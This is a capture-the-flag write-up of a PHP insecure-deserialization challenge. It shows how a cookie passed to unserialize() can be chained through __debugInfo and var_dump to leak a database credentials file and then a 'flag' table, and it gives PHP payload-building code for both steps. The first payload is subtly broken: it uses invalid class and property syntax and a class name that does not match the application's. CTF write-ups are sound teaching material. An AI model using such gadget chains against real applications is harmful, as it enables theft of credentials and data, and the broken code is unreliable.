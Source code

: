 # We can see this particular line
```php
if (isset($_COOKIE['prefs'])) {
    // Unserialize, Interesting and malicious.
    $prefs = unserialize($_COOKIE['prefs']);
    // Checking if the $prefs object belongs to the class UserPrefs
    if (!($prefs instanceof UserPrefs)) {
        echo "Unrecognized data: ";
        var_dump($prefs);
        exit;
    }
}
```
That means we have user controlled unserialization which is dangerous, If we get the proper gadgets we'll get previleged access. If $prefs is not an instance of UserPrefs then it will var_dump($prefs), So it will dump the data held inside $prefs.

Also we can see this line,

```php
$albums = new Albums(new MysqlRecordStore($mysql_host, $mysql_user, $mysql_password, $mysql_database, 'albums'));
```
So we're initializing a class Albums, with the class MysqlRecordStore which would be passed into the contructor of the Albums ie, Store as we can see from its class definition.

```php
class Albums {
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }

    public function getAlbum($id) {
        return $this->store->getRecord($id);
    }

    public function addAlbum($album) {
        return $this->store->addRecord($album);
    }

    public function updateAlbum($id, $album) {
        return $this->store->updateRecord($id, $album);
    }

    public function deleteAlbum($id) {
        return $this->store->deleteRecord($id);
    }

    public function getAllAlbums() {
        return $this->store->getAllRecords();
    }

    public function __debugInfo() {
        return $this->getAllAlbums();
    }
```
We can see its calling getAllAlbums, now this is from the class 'MysqlRecordStore', Now this class has an interesting method which as follows.
```php
public function getAllRecords() {
        $stmt = $this->mysqli->prepare("SELECT * FROM {$this->table}");
        $stmt->execute();
        $rows = $stmt->get_result()->fetch_all(MYSQLI_ASSOC);
        $records = array();
        foreach ($rows as $row) {
            $record = new Record($row['id']);
            foreach ($row as $key => $value) {
                $record->$key = $value;
            }
            $records[] = $record;
        }
        return $records;
    }
```
ie, Whatever table name that we pass into that new Album's instance we'll get the flag, as we know if $prefs is not an instance of UserPrefs then we'll get to call var_dump on the object which is an instance of the Album class now since var_dump() is being called the function __debugInfo will get called automatically since it's a magic function.

So, __debugInfo() will call getAllAlbums which will again call getAllRecords which will fetch the flag, then var_dump($prefs) will show us the contents the of the $prefs object hence we will get the flag, but we have a problem we don't the have the mysql creds, for that there is another class called CsvRecordStore in records.php, that also has the method getAllRecord and it's valid as its just reading the file into a string and then calls array_map with a callback function str_getcsv on it, and then just returns the value of each key and value, then var_dump() gets called on it and we'll get the db creds.

Here is the payload for leaking the flag, we'll have to give it as a cookie.

```php 
class Album(){
    private store;
    public function __construct($store) {
        $this->store = $store;
}
}

class CsvRecordStore(){
    private $file;
    public function __construct($file) {
        $this->file = $file;
    }
}

$leak_db_creds = new Album(new CsvRecordStore('db_creds.php'));
$enc_leak = urlencode(serialize($leak_db_creds));
```

Hence we'll get the creds, Now we can leak the flag now.

ie;

```php
class Albums{
    private $store;
    public function __construct($store) {
        $this->store = $store;
}
}

class MysqlRecordStore{
    private $mysqli;
    private $table;
    private $host;
    private $user;
    private $pass;
    private $db;

    public function __construct($host, $user, $pass, $db, $table) {
        $this->host = $host;
        $this->user = $user;
        $this->pass = $pass;
        $this->db = $db;
        $this->mysqli = new mysqli($host, $user, $pass, $db);
        $this->table = $table;
    }
}

$leak_db_creds = new Albums(new MysqlRecordStore('mysql','user','yeah_im_different','challenge', 'flag'));
$enc_leak = urlencode(serialize($leak_db_creds));
?>
```

And we'll get the flag.
